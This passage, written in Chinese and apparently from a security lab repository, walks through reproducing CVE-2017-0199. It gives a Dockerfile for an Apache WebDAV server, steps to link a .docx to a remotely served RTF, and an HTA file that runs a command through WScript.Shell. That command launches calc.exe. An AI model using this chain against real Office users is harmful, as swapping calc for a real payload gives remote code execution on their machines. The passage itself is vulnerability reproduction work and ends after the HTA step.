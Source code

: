 ```
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y apache2

RUN a2enmod dav
RUN a2enmod dav_fs
RUN a2enmod dav_lock
RUN a2enmod headers

RUN service apache2 restart

RUN apt install vim -y

RUN apt install lrzsz -y

EXPOSE 80
```

运行如下命令构建docker镜像：

```
docker build -t cve-2017-0199-server .
docker run -it -p 8888:80 cve-2017-0199-server
```

在本地创建一个1.docx上传到 /var/www/html/ 

```
cd /var/www/html
service apache2 start
mkdir test
cp 1.docx test/1.rtf
```

在本地创建一个poc.docx文件,然后插入链接`http://MyIP:8888/test/1.rtf`：

![insert_rtf_url](img/CVE-2017-0199/insert_rtf_url.png)

如果此时对以上链接进行抓包访问，看到的内容如下，需要保证返回的Content-Type的值是application/rtf或者application/doc（为了隐藏图标，也为保证正常插入链接）：

![rtf_response](img/CVE-2017-0199/rtf_response.png)


#### 第二步：替换链接中的文件为HTA文件

还是在服务端进行配置的修改，先上传poc.hta到服务器/var/ww/html/，poc.hta的内容如下：

```html
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```
